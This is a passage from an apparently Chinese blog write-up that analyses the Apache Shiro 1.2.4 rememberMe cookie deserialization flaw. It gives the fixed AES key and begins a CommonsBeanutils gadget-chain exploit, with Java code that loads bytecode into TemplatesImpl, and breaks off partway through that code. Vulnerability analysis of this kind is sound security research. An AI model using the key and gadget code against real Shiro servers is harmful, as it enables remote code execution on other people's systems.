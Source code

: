![](https://xinyisleep.github.io/img/2025/shiro/shiro1.2.4/7.jpg)

![](https://xinyisleep.github.io/img/2025/shiro/shiro1.2.4/7.png)

![](https://xinyisleep.github.io/img/2025/shiro/shiro1.2.4/8.jpg)

![](https://xinyisleep.github.io/img/2025/shiro/shiro1.2.4/8.png)

```
 总结流程：  
1.Cookie rememberMe进行Base64解码
2.使用AES/CBC/PKCS5Padding解密并且拿到了固定key`kPH+bIxk5D2deZiIxcaaaA==`
3.进行了反序列化
```
<h2 id="UM4oh">2.2：加密</h2>
```
下面我们看一下加密的过程
org.apache.shiro.mgt.AbstractRememberMeManager类中onSuccessfulLogin方法是登录的类(图一)
一直跟到图二,在进入convertPrincipalsToBytes，其实里面就是先进行序列化用户名,接着进行加密encrypt
内容和解密差不多只不过变成了cipherService.encrypt加密了，接着走到rememberSerializedIdentity
base64编码，再把编码的内容给rememberMe。
```

![](https://xinyisleep.github.io/img/2025/shiro/shiro1.2.4/9.png)

![](https://xinyisleep.github.io/img/2025/shiro/shiro1.2.4/10.png)

![](https://xinyisleep.github.io/img/2025/shiro/shiro1.2.4/11.png)

![](https://xinyisleep.github.io/img/2025/shiro/shiro1.2.4/12.png)

```
总结流程：
1.用户名进行序列化
2.进行AES/CBC/PKCS5Padding加密并且拿到了固定key`kPH+bIxk5D2deZiIxcaaaA==`
3.进行base64编码
```
<h1 id="lOIgS">3.反序列化cb链rce</h1>

```
首先改一下CB链下图部分因为用到cc的内容(图一,代码一)，下面是AES/CBC/PKCS5Padding解密代码

(代码二)

```

![](https://xinyisleep.github.io/img/2025/shiro/shiro1.2.4/13.png)

```java
TemplatesImpl templates = new TemplatesImpl();
Class<TemplatesImpl> templatesClass = TemplatesImpl.class;
Field name = templatesClass.getDeclaredField("_name");
name.setAccessible(true);
name.set(templates,"123");

Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
bytecodes.setAccessible(true);
byte[] bytes = Files.readAllBytes(Paths.get("D:\\phpStudy\\test.class"));
bytecodes.set(templates,new byte[][]{bytes});


Field tfactory = templatesClass.getDeclaredField("_tfactory");
tfactory.setAccessible(true);
tfactory.set(templates,new TransformerFactoryImpl());

```